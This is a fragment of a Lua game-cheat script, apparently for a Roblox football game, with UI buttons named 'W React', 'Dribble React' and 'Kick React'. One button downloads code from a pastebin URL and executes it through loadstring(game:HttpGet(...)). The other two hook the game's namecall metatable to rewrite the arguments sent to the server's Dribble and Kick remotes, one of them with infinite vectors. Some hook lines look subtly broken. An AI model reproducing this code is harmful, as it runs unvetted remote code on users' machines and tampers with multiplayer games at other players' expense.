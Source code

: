             RunStepped:Disconnect()
        end
})

Tabs.Other:AddButton({
    Title = "W React",
    Callback = function()
              getgenv().Kitten = 5
loadstring(game:HttpGet("https://pastebin.com/raw/GrePU9TQ",true))()
      end    
})


Tabs.Other:AddButton({
    Title = "Dribble React",
    Callback = function()
        local player = game:GetService("Players").LocalPlayer

        local mt = getrawmetatable(game);
        local old = mt.namecall
        setreadonly(mt,false)
        mt.namecall = newcclosure(function(remote,...)
           args = {...}
           method = tostring(getnamecallmethod())
           if method == "FireServer" and tostring(remote) == "Dribble" then
        
        
               args[2] = player.Character.Humanoid.LLCL
        
               return old(remote,unpack(args))
        end
           return old(remote,...)
        end)
        setreadonly(mt,true)
    end    
})

Tabs.Other:AddButton({
    Title = "Kick React",
    Callback = function()
        _G.Vector = Vector3.new(math.huge, math.huge, math.huge)

        local mt = getrawmetatable(game);
        local old = mt.namecall
        setreadonly(mt,false)
        mt.namecall = newcclosure(function(remote,...)
           args = {...}
           method = tostring(getnamecallmethod())
           if method == "FireServer" and tostring(remote) == "Kick" then
               args[6] = _G.Vector
               return old(remote,unpack(args))
           end
           return old(remote,...)
        end)
        setreadonly(mt,true)
      end    
})
